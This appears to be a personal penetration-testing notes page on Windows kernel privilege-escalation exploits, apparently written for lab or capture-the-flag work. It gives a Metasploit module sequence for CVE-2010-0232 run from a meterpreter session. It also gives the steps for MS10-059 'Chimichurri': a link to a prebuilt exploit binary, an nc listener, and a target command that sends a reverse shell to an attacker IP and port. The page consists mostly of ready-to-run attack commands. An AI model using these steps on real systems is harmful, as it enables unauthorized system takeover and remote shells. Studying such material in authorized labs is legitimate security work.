 -- -
Exploits run against the kernel.
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
#### CVE-2010-0232
#cve-2010-0232 [Disclosure](https://seclists.org/fulldisclosure/2010/Jan/341)
Affects older versions of Windows:
- Windows 2000
- Windows XP
- Windows Server 2003
- Windows Vista
- Windows Server 2008
- Windows 7
```bash
# from meterpreter shell
bg # or background or ctrl+z
use exploit/windows/local/ms10_015_kitrap0d
set session <session id> 
set lhost tun0 # or attack ip
set lport 5555 # irrelevant what you set to
run
```
#### MS10-059 - Chimichurri
#ms10-059 #chimichurri
[[Dark Arts/Privesc/Windows/Enumeration/Kernel Level Exploits|Enum]]
[Exploit Executable](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)
Get executable in above link or from a google search and [[Windows|File Transfer]] it over to the target. 
**Attack Box**
```bash
# setup listener
nc -nvlp <port number> 
```
**Target**
```powershell
# in this example, I saved the exploit binary as "ms.exe", name can be whatever you name it. 
ms.exe <attack ip> <attack port> 
ms.exe 10.10.10.14 7777

# should produce a shell on you listener.
```
#### Resources
- [Repo of Exploits](https://github.com/SecWiki/windows-kernel-exploits)